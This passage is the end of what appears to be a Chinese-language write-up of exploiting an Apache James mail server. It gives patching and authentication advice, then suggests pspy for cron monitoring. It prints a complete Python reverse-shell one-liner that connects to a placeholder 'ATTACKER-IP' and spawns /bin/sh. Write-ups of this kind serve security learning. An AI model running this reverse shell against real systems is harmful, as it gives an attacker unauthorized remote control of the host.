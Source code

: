 ## 应用安全更新

补丁管理过程对于处理软件漏洞是无价的。我提到“流程”是因为电子邮件是一项关键服务，应用补丁很容易意味着停机，因此一个正确建立和测试的流程有助于平衡用户的停机成本，同时有助于确保应用程序拥有最新的安全补丁。

## 防止未经验证的电子邮件中继

我使用的来自 exploitdb 的特定 POC 不需要登录 SMTP 服务来发送电子邮件。Apache James 可以通过要求用户首先登录来防止这种情况，并且如果默认凭证也被更改，也不能轻易绕过这种情况。

# 最后的想法

在写这篇文章的时候，有些事情我本可以做得更好:

*   使用诸如 [pspy](https://github.com/DominicBreuker/pspy) 之类的工具，这将有助于监控 cron 作业何时被执行。当您看不到 root 等其他特权用户的 cron 作业时，以及 cron 作业的时间不容易辨别时，这很有用。
*   生成一个根 shell 作为 POC，用于完整的系统访问。一个示例 Python 脚本，当从 root 执行时，它将产生一个[反向外壳](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python):

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER-IP",4554));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

感谢您阅读我的帖子！我很乐意听到你的反馈或回答你的问题:【https://twitter.com/pidnull 